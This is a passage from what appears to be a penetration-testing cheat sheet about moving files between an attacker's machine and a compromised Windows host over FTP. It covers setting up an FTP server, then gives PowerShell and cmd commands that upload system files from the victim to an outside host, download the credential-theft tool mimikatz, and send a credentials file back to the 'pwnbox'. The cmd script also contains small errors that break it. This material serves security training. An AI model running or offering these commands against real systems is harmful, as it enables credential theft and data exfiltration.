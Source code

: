 ### FTP server (NodeJS)

```
sudo npm install -g ftp-srv --save
ftp-srv ftp://0.0.0.0:9876 --root /tmp
```

### FTP server (pure-ftp)

```bash
apt-get update && apt-get install pure-ftp
```

```bash
#Run the following script to configure the FTP server
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pwd useradd fusr -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
/etc/init.d/pure-ftpd restart
```

### **Windows** client

using powershell
```bash
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')

(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts') # upload
``` 
with cmd
```bash
#Work well with python. With pure-ftp use fusr:ftp
echo open 10.11.0.41 21 > ftp.txt
echo USER anonymous >> ftp.txt
echo anonymous >> ftp.txt
echo bin >> ftp.txt
echo GET mimikatz.exe >> ftp.txt            # download
echo PUT uploaded_creds.txt >> uploaded.txt # upload file to pwnbox
echo bye >> ftp.txt
ftp -n -v -s:ftp.txt
```

## SMB

Kali as server
